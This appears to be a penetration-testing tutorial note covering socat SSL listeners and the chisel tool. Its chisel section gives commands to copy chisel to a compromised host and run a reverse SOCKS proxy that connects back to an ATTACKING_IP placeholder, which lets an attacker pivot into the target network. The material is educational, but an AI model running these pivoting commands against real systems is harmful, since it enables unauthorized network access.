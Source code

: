 ```
$ socat ssl-l:2443,reuseaddr,fork,cert=server.pem,cafile=server.crt,verify=1 exec:'/bin/date’
```

On the other terminal please invoke the client:

```
$ socat - ssl:localhost:2443,cert=server.pem,cafile=server.crt
```

I get this as output.
```
Tue Jun 30 13:17:23 IST 2020
```

Now to echo:

```
$ socat echo -
```
You can type something which will get returned.

### Chisel

secure copy method to send binary to compromise machine 

```
$ scp -i KEY chisel user@target:/tmp/chisel-USERNAME
```

### Method Reverse SOCKS Proxy:

Let's start by looking at setting up a reverse SOCKS proxy with chisel. This connects back from a compromised server to a listener waiting on our attacking machine.

- On our own attacking box we would use a command that looks something like this:

```
$ ./chisel server -p LISTEN_PORT --reverse &
```

This sets up a listener on your chosen LISTEN_PORT.

- On the compromised host, we would use the following command:

```
./chisel client ATTACKING_IP:LISTEN_PORT R:socks &
```

This command connects back to the waiting listener on our attacking box, completing the proxy. As before, we are using the ampersand symbol (&) to background the processes.

Note the use of `R:socks` in this command. "R" is prefixed to remotes (arguments that determine what is being forwarded or proxied -- in this case setting up a proxy) when connecting to a chisel server that has been started in reverse mode. It essentially tells the chisel client that the server anticipates the proxy or port forward to be made at the client side (e.g. starting a proxy on the compromised target running the client, rather than on the attacking machine running the server). Once again, reading the chisel help pages for more information is recommended. 


